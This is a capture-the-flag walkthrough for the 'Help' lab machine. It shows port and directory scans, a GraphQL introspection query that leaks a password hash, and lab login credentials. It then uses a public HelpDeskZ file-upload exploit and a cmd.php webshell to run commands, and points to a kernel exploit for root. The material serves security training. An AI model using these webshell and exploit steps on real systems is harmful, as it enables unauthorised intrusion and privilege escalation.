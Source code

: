# Help

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.71.39
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 15:38 EDT
Nmap scan report for 10.129.71.39
Host is up (0.0079s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We have to add `help.htb` to the `/etc/hosts` file to access port 80.

### GraphQL&#x20;

This port had a HTTP API running:

```
$ curl http://help.htb:3000/                      
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran a `gobuster` scan to find any places that I could send queries.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://help.htb:3000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb:3000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 15:43:46 Starting gobuster in directory enumeration mode
===============================================================
/graphql              (Status: 400) [Size: 18]
```

GraphQL was present. So we need to send `query` parameters and hopefully find some credentials or other information from this. We can use this to see all types and argument accepted:

<pre class="language-http"><code class="lang-http"><strong>?query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}
</strong></code></pre>

At the top, we see this:

<figure><img src="../../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

This means we can query `username` and `password` fields from `user`, which would make `{user{username,password}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

The hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (585).png" alt=""><figcaption></figcaption></figure>

### HelpDeskZ

On port 80, it just shows the default Apache2 page:

<figure><img src="../../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>

Doing a `gobuster` scan reveals some directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://help.htb: -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb:
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 15:49:06 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
/server-status        (Status: 403) [Size: 296]
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
```

`/support` reveals a HelpDeskZ instance:

<figure><img src="../../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

We can login with `helpme@helpme.com:godhelpmeplz`. From the HelpDeskZ repository, there's a `readme.html` file present where we can find the version that is running.&#x20;

<figure><img src="../../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

This version has an exploit available:

```
$ searchsploit helpdeskz  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                    | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauth | php/webapps/41200.py
----------------------------------------------------------- ---------------------------------
```

First we need to open a ticket and then upload a `cmd.php` webshell.&#x20;

<figure><img src="../../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

Then we can submit this, and even though the website says the file type is not allowed, **the file is still uploaded onto the website**. Then, we can use `40200.py` to find it.&#x20;

{% code overflow="wrap" %}
```
$ python2 40300.py http://help.htb/support/uploads/tickets/ cmd.php  2> /dev/null
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://help.htb/support/uploads/tickets/39a4def6c8a341531c5668661046e30d.php
$ curl http://help.htb/support/uploads/tickets/39a4def6c8a341531c5668661046e30d.php?cmd=id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```
{% endcode %}

Then, we can get a reverse shell easily and capture the user flag.

<figure><img src="../../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit

The machine is running an outdated version of Linux:

{% code overflow="wrap" %}
```
help@help:/home/help$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
{% endcode %}

We can use this kernel exploit to get a root shell:

{% embed url="https://www.exploit-db.com/exploits/44298" %}

<figure><img src="../../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>
